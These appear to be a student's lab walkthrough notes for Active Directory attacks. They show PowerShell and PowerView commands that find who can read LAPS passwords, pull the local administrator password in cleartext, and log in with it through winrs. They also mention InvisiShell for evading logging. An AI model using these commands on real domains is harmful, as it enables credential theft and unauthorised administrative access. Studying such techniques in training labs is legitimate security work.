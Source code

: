 
Task 
• Identify OUs where LAPS is in use and user(s) who have permission to read passwords. 
• Abuse the permissions to get the clear text password(s).



First, we need to find the OUs where LAPS is in use. We can enumerate this using the ActiveDirectory module and LAPS module. Let's use Get-LAPSPermissions.ps1 PowerShell script for that. Remember that we continue to use InvisiShell to run PowerShell tools:

```
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```


```
C:\AD\Tools\Get-LapsPermissions.ps1
```

![[Pasted image 20250316125839.png]]

We also use PowerView for this enumeration:

```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

![[Pasted image 20250316130156.png]]

So, the studentusers group can read password for LAPS managed Administrator on the us-mgmt machine. Let's try it using the Active Directory module, LAPS module and PowerView.

Active Directory module 

```
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

LAPS module

```
 Get-AdmPwdPassword -ComputerName us-mailmgmt
```

Powerview

```
 Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
```

Let's try to access the mail-mgmt machine with this password by using winrs. Success means administrative access:

```
winrs -r:us-mailmgmt -u:.\administrator -p:x90yXSRFT.mqZC cmd
```

![[Pasted image 20250316130907.png]]

We can also use a PSRemoting session:

![[Pasted image 20250316131154.png]]


